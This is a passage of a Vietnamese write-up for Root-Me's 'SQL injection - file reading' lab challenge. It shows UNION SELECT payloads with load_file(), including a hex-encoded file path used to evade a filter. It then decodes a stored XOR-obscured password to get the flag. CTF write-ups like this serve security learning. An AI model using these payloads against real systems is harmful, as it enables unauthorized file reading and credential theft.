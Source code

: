 Vậy các cột ta có thể exploit được là 1,2,4

Tên bài là file reading, ta có thể đoán rằng, tất cả sẽ nằm trong source code tại `index.php`.

- Lưu ý đường dẫn tuyệt đối tới file trong rootme là “/challenge/web-serveur/ch31/index.php”

Ta sẽ dùng hàm load_file() để ta render file đó ra. Vậy payload như sau : 

`1+AND+1=0+UNION+SELECT+1,2,3,load_file(/challenge/web-serveur/ch31/index.php)--+-`

![image](https://hackmd.io/_uploads/H1xUdf2rT.png)

Có vẻ đường dẫn bị chặn nên ta thử chuyển đường dẫn sang mã hex : 

`1+AND+1=0+UNION+SELECT+1,2,3,load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)--+-`

![image](https://hackmd.io/_uploads/S1rDKGnra.png)

Click chuột phải vào `View page source` ta xem được source đầy đủ. Từ code ta có thể thấy được table cần khai thác có tên là `member` có các column `member_login` , `member_password` , trong đó `member_password` bị mã hóa. Do vậy ta phải thực hiện decode để ra password ban đầu.

![image](https://hackmd.io/_uploads/SkeDnS2r6.png)

![image](https://hackmd.io/_uploads/BJP93S3Hp.png)


Oke bây giờ trước cứ lấy password ra đã

![image](https://hackmd.io/_uploads/ByqdTr2BT.png)

Password : `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`

Dựa vào những thông tin sau :  

`$pass = sha1($_POST['password']);`

`if($pass == stringxor($key, base64_decode($data['member_password'])))`

Nghĩa là giá trị ta nhập vào (`$_POST['password']`) sẽ được mã hóa `sha1` , và nếu giá trị đó mà bằng `stringxor($key, base64_decode($data['member_password']))` thì có nghĩa là mật khẩu nhập vào là đúng.

Mà ta lại có giá trị của `member_password` rồi thì bây giờ thực hiện các bước ngược lại để lấy flag thôi .

Đầu tiên tìm giá trị của `stringxor($key, base64_decode($data['member_password'])`

![image](https://hackmd.io/_uploads/S1n1YI2Bp.png)

Cuối cùng encrypt `sha1` là xong 

![image](https://hackmd.io/_uploads/BJaMFUhST.png)

Flag : superpassword

## [10. Time based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)
